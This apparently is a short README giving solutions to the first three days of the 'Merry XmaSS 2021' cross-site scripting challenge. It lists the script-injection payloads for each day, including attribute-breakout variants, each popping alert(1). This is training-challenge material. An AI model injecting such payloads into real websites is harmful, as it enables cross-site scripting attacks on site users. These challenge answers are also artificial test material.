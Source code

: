 # Merry XmaSS challenge 2021

## Find the challenge here **https://xmass.compass-demo.com/**

The goal is to get an *alert(1)* popup by injecting code via the given forms in the XSS advent calendar.

### Day 1

```
<script>alert(1)</script>
```

### Day 2

```
"><script>alert(1)</script
```

### Day 3
```
"><script>alert(1)</script>
```
